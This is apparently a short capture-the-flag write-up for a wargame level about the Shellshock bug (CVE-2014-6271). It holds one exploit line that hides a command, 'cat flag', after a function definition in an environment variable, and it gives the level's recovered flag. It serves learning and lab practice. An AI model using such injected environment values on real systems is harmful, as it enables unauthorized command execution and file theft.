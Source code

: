 ```yaml
---
layout: default
title: shellshock
---
```


# shellshock Solution

in this level we exploit the bug of shellshock, which runs unintentionally code that is found after func declaration inside env variables.

```
export env_var='() { echo "regular stuff"; }; cat flag'
```

![image](./images/shellshock.png)

**Flag:** ***`only if I knew CVE-2014-6271 ten years ago..!!`***
